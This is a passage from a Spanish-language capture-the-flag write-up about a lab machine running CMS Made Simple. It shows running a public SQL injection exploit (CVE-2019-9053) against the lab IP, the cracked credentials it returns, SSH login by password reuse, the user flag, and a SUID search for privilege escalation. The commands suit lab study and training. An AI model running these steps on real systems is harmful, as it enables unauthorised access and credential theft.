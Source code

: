 Sabiendo que versión es, se buscan exploit en searchexploit, encontrando una que puede servir, de inyección SQL, con el código de vulnerabilidad asignado **[CVE-2019-9053](https://www.exploit-db.com/exploits/46635)**.

~~~console
searchsploit 46635.py  
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                                                                 | php/webapps/46635.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
~~~

Se obtiene el exploit, que está escrito en python y se lanza obteniendo los siguientes datos de acceso.

~~~console
python 46635.py -c -u http://10.10.124.34/simple -w darkc0de.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
~~~

Mediante estas credenciales, se puede acceder a la parte de administración vista previamente, pero no se consigue obtener ejecución de código, y se busca si las credenciales pueden haber sido recicladas en otro servicio, obteniendo acceso mediante SSH.


Se obtiene el flag de usuario (**user.txt = G00d j0b, keep up!**).


## Escalada de privilegios. ##

Se comienza entonces a enumerar posibles vectores de para escalar privilegios.

Se comienza a buscar con el comando **find** los binarios con suid, pero no se encuentra ninguno que pueda se explotable en [GTFOBins](https://gtfobins.github.io/).

~~~console
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/ping
/bin/mount
/bin/umount
/bin/ping6
/bin/fusermount
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
~~~